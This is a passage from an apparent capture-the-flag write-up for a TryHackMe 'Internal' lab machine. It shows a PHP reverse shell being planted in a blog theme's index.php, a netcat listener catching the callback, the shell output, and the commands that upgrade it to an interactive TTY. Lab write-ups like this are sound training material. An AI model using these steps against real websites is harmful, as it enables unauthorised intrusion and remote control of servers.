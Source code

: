 ## Getting a Shell

I edit the main index template theme (index.php) and add the standard **pentestmonkey** reverse php shell code to it and save the file

<br>

![](images/internal7.png)

<br>

I start a `nc -nvlp 4444` listener up on my system to catch the call back from the website. After that's taken care of I navigate back over to the main **http://internal.thm/blog/** site and get a shell back:

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.65.114] 36436
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:40:11 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Let's make this an interactive shell:

`python -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

Background the shell and:

`stty raw -echo; fg`

Much better. A `whoami` shows that we're the default **www-data** user:

```
www-data@internal:/$ whoami
www-data
```
